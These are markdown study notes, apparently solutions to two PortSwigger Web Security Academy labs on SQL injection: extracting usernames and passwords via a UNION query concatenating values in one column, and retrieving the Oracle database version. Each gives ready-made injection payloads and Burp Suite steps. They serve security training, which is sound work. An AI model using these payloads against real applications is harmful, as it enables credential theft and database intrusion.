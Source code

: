 ## SQL injection UNION attack, retrieving multiple values in a single column
Reference: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

```ad-hint
title: Quick Solution
The original query returns two colums, but only one contains text. Multiple values can be retrieved together including a suitable separator to let distinguish the combined values. The payload for this lab is the following:
~~~
' UNION SELECT username || '~' || password FROM users--
~~~
```

```ad-done
title: Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the ``category`` parameter: 
~~~
'+UNION+SELECT+NULL,'abc'--
~~~
3. Use the following payload to retrieve the contents of the users table: 
~~~
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
~~~
4. Verify that the application's response contains usernames and passwords.
```

## SQL injection attack, querying the database type and version on Oracle
Reference: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

```ad-hint
title: Quick Solution
Be aware that on Oracle databases every ``SELECT`` statement must specify a table to select ``FROM``. There is a built-in table on Oracle called ``dual`` which can be used for this purpose. After retrieving the number of columns and which column contains data the SQL Injection cheatsheet can be used to discover how to retrieve the version on Oracle databases. The payload is the following:
~~~
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
~~~
```

```ad-done
title: Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: 
~~~
'+UNION+SELECT+'abc','def'+FROM+dual--
~~~
3. Use the following payload to display the database version: 
~~~
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
~~~
```

